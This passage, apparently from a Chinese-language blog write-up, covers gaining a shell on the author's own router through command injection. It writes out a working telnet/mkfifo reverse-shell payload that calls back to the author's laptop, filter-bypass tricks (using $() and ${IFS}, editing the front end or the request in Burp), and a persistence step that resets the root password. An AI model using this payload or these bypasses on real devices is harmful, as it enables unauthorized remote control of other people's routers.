 接着，我尝试创建一个反弹shell连接到我的笔记本（192.168.123.197）上的1031端口（感谢MiaoTony佬推荐的[反弹shell生成工具](https://www.revshells.com/)）。

```shell
$(TF=$(mktemp -u);mkfifo $TF && telnet 192.168.123.197 1031 0<$TF | ash 1>$TF)
```

这里有几个要点：

- 路由器中使用的是busybox，没有bash但有ash，没有nc和python，但可以用telnet

- 后端似乎过滤了`"`和`` `，但是没有过滤`$()`

- 这个输入框里不允许出现空白字符，但只是前端过滤，绕过方法：

  - F12改前端代码（x
  - 使用`${IFS}`替代所有空格，但是要注意输入框字符长度限制
  - 直接F12改或者在BurpSuite里修改请求里的`url`参数绕过
  
  ![image-20220129234054687](/images/image-20220129234054687.png)

## 持久化

拿到反弹shell后，我们第一步可以直接使用passwd命令修改root密码，然后我们就能从8080端口的LuCI上登陆了：
